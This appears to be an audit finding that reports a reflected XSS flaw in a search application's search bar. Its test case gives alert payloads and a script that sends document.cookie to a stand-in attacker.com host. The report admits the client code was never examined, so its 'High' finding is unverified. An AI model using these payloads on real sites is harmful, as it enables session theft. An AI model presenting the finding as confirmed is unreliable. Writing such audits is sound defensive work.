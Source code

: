 - Vulnerability Name: Reflected Cross-Site Scripting (XSS) in Search Bar

- Description:
  1. An attacker crafts a malicious URL containing JavaScript code within the search query parameter.
  2. A user clicks on this malicious URL or visits a page where this URL is dynamically generated and embedded (e.g., through a link in an email or another website).
  3. The Resultstore Search application processes the URL, extracts the search query containing the malicious JavaScript code, and reflects it directly into the HTML of the search results page without proper sanitization or encoding.
  4. The user's browser executes the injected JavaScript code, as it is rendered as part of the page's HTML content.

- Impact:
  - Execution of malicious JavaScript code in the user's browser.
  - Potential session hijacking, allowing the attacker to impersonate the user.
  - Data theft, including cookies, session tokens, and potentially sensitive information displayed on the page.
  - Redirection of the user to malicious websites.
  - Defacement of the web page.

- Vulnerability Rank: High

- Currently Implemented Mitigations:
  - None identified in the provided project files. The code base appears to lack any input sanitization or output encoding mechanisms to prevent XSS.

- Missing Mitigations:
  - Input sanitization: Implement sanitization on the server-side to remove or neutralize any potentially malicious JavaScript code or HTML tags from user input before processing the search query.
  - Output encoding: Encode user-provided data before rendering it in HTML, especially within contexts where JavaScript execution is possible (e.g., innerHTML, script tags). Use appropriate encoding functions provided by the React framework or Javascript libraries to prevent XSS.
  - Content Security Policy (CSP): Implement CSP headers to restrict the sources from which the browser is allowed to load resources, reducing the impact of XSS attacks.

- Preconditions:
  - User must click on a malicious link or visit a page containing the malicious URL.
  - The application must be accessible to the attacker (publicly accessible instance or attacker gains access).

- Source Code Analysis:
  - The provided project files do not include the Javascript code for the client-side application, so a direct code analysis of the React components handling the search bar and rendering results is not possible with the given information.
  - However, the `README.md` file and the description of the "Search Bar" and "Search Button" strongly suggest that user input from the search bar is used to query and display results.
  - The description of the most likely attack vector in the initial prompt points to XSS through the search bar, indicating a potential lack of output encoding when rendering search results.
  - The file `/code/resultstoresearch/resultstoresearch/resultstore_proxy_server.py` shows server-side Python code handling search requests and proxying them to resultstore. This part of the backend code needs to be checked for input sanitization, but the vulnerability is more likely on the client-side rendering in Javascript.
  - The file `/code/resultstoreui/resultstoreapi/cloud/devtools/resultstore/v2/gapic/transports/result_store_upload_grpc_transport.py` and `/code/resultstoreui/resultstoreapi/cloud/devtools/resultstore/v2/gapic/transports/result_store_file_download_grpc_transport.py` describe gRPC transports for the ResultStore API. These files are related to backend communication and do not directly expose client-side vulnerabilities. They do not contain information that mitigates or changes the identified XSS vulnerability. The focus remains on the client-side Javascript code for mitigation.
  - The file `/code/resultstoresearch/client/envoy/envoy.yaml` shows Envoy proxy configuration, which includes CORS settings. CORS is a mitigation for Cross-Origin attacks but not directly for XSS in the same origin, and it doesn't sanitize or encode output.

- Security Test Case:
  1. Access the Resultstore Search application through a web browser.
  2. In the search bar, enter the following payload: `<img src=x onerror=alert('XSS')>`
  3. Click the "Search" button.
  4. Observe if an alert box with the text "XSS" appears. If it does, the application is vulnerable to reflected XSS.
  5. Alternatively, try a more sophisticated payload that attempts to steal session cookies: `<script>alert(document.cookie)</script>` or `<script>window.location='http://attacker.com/cookie_stealer?cookie='+document.cookie;</script>` and check attacker.com logs.
